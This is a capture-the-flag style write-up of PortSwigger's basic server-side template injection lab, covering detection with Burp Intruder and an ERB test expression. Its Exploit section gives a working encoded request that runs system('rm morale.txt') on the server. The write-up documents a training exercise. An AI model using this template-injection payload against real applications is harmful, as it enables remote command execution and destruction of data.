

# [Lab: Basic server-side template injection](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)

## Lab

This lab is vulnerable to  [server-side template injection](https://portswigger.net/web-security/server-side-template-injection)  due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the  `morale.txt`  file from Carlos's home directory.

## Analysis

When I clicked the view details button of the first product, I noticed that the url was quite strange:


## Scan

- burpsuite scanner failed

## Detect

Using burp's intruder:

- positions: `GET /?message=§abcd§ HTTP/1.1`
- payloads: fuzzing template injection
- result:


The `<%=77*77%>` has the syntax of erb ruby

## Exploit

Cheatsheet: <https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby>

delete morale.txt file to solve the lab:

```http
GET /?message=%3c%25%3dsystem(%22rm+morale.txt%22)%25%3e HTTP/1.1
```

## References

<https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby>
